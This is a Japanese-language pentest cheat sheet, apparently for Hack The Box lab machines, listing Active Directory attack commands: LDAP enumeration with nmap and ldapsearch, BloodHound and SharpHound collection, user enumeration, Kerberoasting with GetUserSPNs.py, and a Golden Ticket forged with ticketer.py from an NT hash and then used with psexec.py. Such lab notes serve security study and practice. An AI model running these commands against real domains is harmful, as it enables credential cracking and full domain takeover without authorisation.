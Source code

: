 # Ldap

### nmap

    sudo nmap -sVC -vv -n -Pn -p389,3268 --script "safe and  *ldap*" 10.129.138.203

### 匿名検索

    ldapsearch -x -H ldap://10.129.138.203/
    ldapsearch -x -H ldap://10.129.138.203:3268/  
    ldapsearch -h 10.129.1.77 -x -s -b "DC=htb,DC=local"
    ldapsearch -h 10.129.1.77 -x -b "DC=htb,DC=local" '(objectClass=User)' sAMAccountName

# BloodHound

neo4jの起動

    sudo neo4j console

browserでneo4jへ接続

    http://localhost:7474/
    databeseURL bolt：//localhost：7687
    username neo4j
    password neo4j

bloodhoundの起動

    bloodhound
1. SharpHound.exeをアップロードする。
2. `SharpHound.exe -c all`で情報収集
3. 作成したzipファイルをkaliへ転送して、Bloodhoundにアップロード
4. 左のフィルターで取得したユーザを選択して、pwn済みのアイコンを付けて、Analysisで分析
![bloodhound_1](/images/bloodhound_1.jpg)

# Domainユーザの列挙
    GetADUsers.py -all -dc-ip 10.129.138.203 active.htb/SVC_TGS

# Kerberosting
SPNがわかっているとSPNへの接続のためのサービスチケットを要求することができる。そのチケットをローカルメモリから取り出してサービスチケットのクラッキングをする。
    GetUserSPNs.py -request -dc-ip 10.129.138.203 active.htb/SVC_TGS


# Golden Ticket
    python /opt/impacket/build/scripts-2.7/ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local netexist

    export KRB5CCNAME=notexist.ccache

    psexec.py htb.local/notexist@forest -k -no-pass -debug

[Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
